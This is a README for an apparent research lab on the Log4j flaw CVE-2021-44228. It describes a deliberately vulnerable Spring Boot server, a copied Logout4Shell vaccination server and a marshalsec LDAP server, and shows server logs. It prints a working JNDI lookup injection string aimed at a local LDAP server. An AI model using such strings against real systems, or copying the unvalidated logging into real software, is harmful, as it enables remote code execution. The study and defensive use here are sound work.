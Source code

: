 # oregon

Project to look at [CVE-2021-44228](https://nvd.nist.gov/vuln/detail/CVE-2021-44228).

## Structure

Naming convention for our stuff will be Oregon cities, we'll keep the names of copied code from cybereason and mbechler.

* oregon Our parent project.
* [ashland](ashland/README.md) Our vulnerable server.
* [logout4shell](logout4shell/README.md) Copied [Logout4Shell](https://github.com/Cybereason/Logout4Shell) vaccination server.
* [marshalsec](marshalsec/README.md) Copied marshalsec ldap server.



## Immunize



    ${jndi:ldap://localhost:1389/a}



## Narrative


Log4j bug.  I suppose the first thing to do, to understand what is going on, is to set up a vulnerable server.

We'll call it ashland, and it will be a spring boot Java server with a vulnerable Log4J version.

We'll make it easy to exploit, by not validating fields, and logging whatever is entered.

Now that we have a vulnerable server, let's set up the vaccination servers.

We'll need a [pre-8.121 JDK](https://www.oracle.com/java/technologies/javase/8u121-relnotes.html), say
8.112, found [here](https://www.oracle.com/java/technologies/javase/javase8-archive-downloads.html).

Still not able to [exploit](https://spring.io/blog/2021/12/10/log4j2-vulnerability-and-spring-boot).

We'll need to [update](https://docs.spring.io/spring-boot/docs/current/reference/html/howto.html#howto.logging.log4j) the default logging in Spring.

.... and that did the trick:


      .   ____          _            __ _ _
     /\\ / ___'_ __ _ _(_)_ __  __ _ \ \ \ \
    ( ( )\___ | '_ | '_| | '_ \/ _` | \ \ \ \
     \\/  ___)| |_)| | | | | || (_| |  ) ) ) )
      '  |____| .__|_| |_|_| |_\__, | / / / /
     =========|_|==============|___/=/_/_/_/
     :: Spring Boot ::                (v2.6.0)
    
    2021-12-12 09:30:37.577  INFO 18077 --- [           main] c.p.a.App                                : Starting App using Java 1.8.0_112 on pan000 with PID 18077 (/home/karl/w/oregon/ashland/target/classes     started by karl in /home/karl/w/oregon/ashland)
    2021-12-12 09:30:37.583  INFO 18077 --- [           main] c.p.a.App                                : No active profile set, falling back to default profiles: default
    2021-12-12 09:30:38.348  INFO 18077 --- [           main] o.s.b.w.e.t.TomcatWebServer              : Tomcat initialized with port(s): 8080 (http)
    2021-12-12 09:30:38.362  INFO 18077 --- [           main] o.a.c.c.StandardService                  : Starting service [Tomcat]
    2021-12-12 09:30:38.362  INFO 18077 --- [           main] o.a.c.c.StandardEngine                   : Starting Servlet engine: [Apache Tomcat/9.0.55]
    2021-12-12 09:30:38.406  INFO 18077 --- [           main] o.a.c.c.C.[.[.[/]                        : Initializing Spring embedded WebApplicationContext
    2021-12-12 09:30:38.406  INFO 18077 --- [           main] w.s.c.ServletWebServerApplicationContext : Root WebApplicationContext: initialization completed in 795 ms
    2021-12-12 09:30:38.728  INFO 18077 --- [           main] o.s.b.a.w.s.WelcomePageHandlerMapping    : Adding welcome page template: index
    2021-12-12 09:30:38.862  INFO 18077 --- [           main] o.s.b.a.e.w.EndpointLinksResolver        : Exposing 1 endpoint(s) beneath base path '/actuator'
    2021-12-12 09:30:38.892  INFO 18077 --- [           main] o.s.b.w.e.t.TomcatWebServer              : Tomcat started on port(s): 8080 (http) with context path ''
    2021-12-12 09:30:38.906  INFO 18077 --- [           main] c.p.a.App                                : Started App in 1.619 seconds (JVM running for 2.076)
    2021-12-12 09:30:50.077  INFO 18077 --- [nio-8080-exec-1] o.a.c.c.C.[.[.[/]                        : Initializing Spring DispatcherServlet 'dispatcherServlet'
    2021-12-12 09:30:50.077  INFO 18077 --- [nio-8080-exec-1] o.s.w.s.DispatcherServlet                : Initializing Servlet 'dispatcherServlet'
    2021-12-12 09:30:50.078  INFO 18077 --- [nio-8080-exec-1] o.s.w.s.DispatcherServlet                : Completed initialization in 1 ms
    Setting FORMAT_MESSAGES_PATTERN_DISABLE_LOOKUPS value to True, current value is false


Breakpoint at org.apache.logging.log4j.core.lookup.Interpolator.lookup seems to be where the offending substitution occurs, while performing the MessagePatternConverter.

Setting the JDK 8.121 or better causes the JVM to do some verification, and returns "foo" instead of executing the specified code.



